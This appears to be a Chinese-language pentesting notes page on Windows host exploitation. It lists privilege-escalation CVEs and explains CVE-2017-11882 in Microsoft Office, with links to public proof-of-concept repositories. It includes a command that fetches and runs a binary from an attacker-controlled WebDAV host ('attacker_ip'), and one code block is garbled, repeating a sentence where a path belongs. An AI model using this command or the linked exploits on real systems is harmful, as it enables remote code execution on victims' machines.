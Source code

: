 # 主机渗透

## Windows系统相关漏洞

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits   Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

CVE-2018-0824

CVE-2018-8174

CVE-2018-8893

CVE-2018-8242

CVE-2018-8373

CVE-2019-0708

...

### CVE-2017-11882

关于Office的一个远程代码执行漏洞[starnightcyber/CVE-2017-11882: CVE-2017-11882 exploitation (github.com)](https://github.com/starnightcyber/CVE-2017-11882)

完美无弹窗，无视宏，影响Ms offcie全版本

> 影响版本

- Office 365
- Microsoft Office 2000  
- Microsoft Office 2003  
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2016

>仓库

43b 原脚本来自于 https://github.com/embedi/CVE-2017-11882

一个用于 CVE-2017-11882的简单 PoC。这个漏洞触发 WebClient 服务从攻击者控制的 WebDav 服务器启动和执行远程文件。这种方法之所以方便，是因为它限制了执行命令的长度。在 WebDav 的帮助下，可以在易受攻击的机器上启动任意攻击者控制的可执行文件。此脚本创建具有多个 OLE 对象的简单文档。这些对象利用 CVE-2017-11882，从而导致顺序命令执行。

触发 WebClient 服务启动的第一个命令可能如下所示：

```
cmd.exe /c start \\attacker_ip\ff
```

攻击者控制的二进制路径应为 UNC 网络路径：

```
攻击者控制的二进制路径应为 UNC 网络路径：
```

109b 原脚本来自于 https://github.com/unamer/CVE-2017-11882/ （膜一波，现在unamer的代码已经可以执行shellcode了~）
